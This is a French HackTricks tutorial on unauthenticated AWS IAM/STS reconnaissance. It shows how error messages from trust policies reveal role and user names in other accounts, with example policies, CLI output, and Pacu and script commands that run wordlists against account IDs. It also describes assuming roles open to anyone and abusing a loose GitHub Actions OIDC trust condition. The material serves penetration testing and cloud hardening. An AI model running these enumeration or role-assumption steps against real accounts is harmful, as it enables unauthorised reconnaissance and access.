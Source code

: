 # AWS - Enumération IAM & STS non authentifiée

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert en équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks:

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>

## Enumérer les rôles et noms d'utilisateur dans un compte

### ~~Brute-Force d'Assume Role~~

{% hint style="danger" %}
**Cette technique ne fonctionne plus** car que le rôle existe ou non, vous obtenez toujours cette erreur :

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

Vous pouvez **tester ceci en exécutant** :

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

Tenter d'**assumer un rôle sans les autorisations nécessaires** déclenche un message d'erreur AWS. Par exemple, si non autorisé, AWS pourrait renvoyer :
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
Ce message confirme l'existence du rôle mais indique que sa politique d'assumption de rôle ne permet pas votre assumption. En revanche, essayer d'**assumer un rôle inexistant entraîne une erreur différente** :
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
Intéressant, cette méthode de **différenciation entre les rôles existants et non existants** est applicable même entre différents comptes AWS. Avec un ID de compte AWS valide et une liste de mots ciblée, il est possible d'énumérer les rôles présents dans le compte sans rencontrer de limitations inhérentes.

Vous pouvez utiliser ce [script pour énumérer les principaux potentiels](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum) en exploitant ce problème.

### Politiques de confiance : Brute-Force des rôles et utilisateurs inter-comptes

La configuration ou la mise à jour d'une **politique de confiance d'un rôle IAM implique de définir quels ressources ou services AWS sont autorisés à assumer ce rôle** et à obtenir des informations d'identification temporaires. Si la ressource spécifiée dans la politique **existe**, la politique de confiance est enregistrée **avec succès**. Cependant, si la ressource **n'existe pas**, une **erreur est générée**, indiquant qu'un principal invalide a été fourni.

{% hint style="warning" %}
Notez que dans cette ressource, vous pouvez spécifier un rôle ou un utilisateur inter-comptes :

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

Voici un exemple de politique :
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

C'est l'**erreur** que vous trouverez si vous utilisez un **rôle qui n'existe pas**. Si le rôle **existe**, la politique sera **enregistrée** sans erreurs. (L'erreur est pour la mise à jour, mais cela fonctionne également lors de la création)

![](<../../../.gitbook/assets/image (68).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
Vous pouvez automatiser ce processus avec [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools)

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

En utilisant [Pacu](https://github.com/RhinoSecurityLabs/pacu):

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* Le rôle `admin` utilisé dans l'exemple est un **rôle dans votre compte à impersonner** par Pacu pour créer les politiques nécessaires à l'énumération

### Élévation de privilèges

Dans le cas où le rôle aurait été mal configuré et permettrait à n'importe qui de l'assumer:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
Le pirate pourrait simplement le supposer.

## Fédération OIDC de tiers

Imaginez que vous parveniez à lire un **flux de travail Github Actions** qui accède à un **rôle** à l'intérieur d'**AWS**.\
Cette confiance pourrait donner accès à un rôle avec la **politique de confiance** suivante:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
Ce **manque de conditions supplémentaires** devrait vous inciter à vous méfier, même si cette stratégie de confiance semble correcte.\
Cela est dû au fait que le rôle précédent peut être assumé par **N'IMPORTE QUI de Github Actions**! Vous devriez également spécifier dans les conditions d'autres éléments tels que le nom de l'organisation, le nom du dépôt, l'environnement, la branche...

Une autre erreur potentielle de configuration est d'**ajouter une condition** comme suit :
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
Notez que le **joker** (\*) avant les **deux-points** (:). Vous pouvez créer une organisation telle que **org\_name1** et **assumer le rôle** depuis une action Github.

## Références

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks:

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF** Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
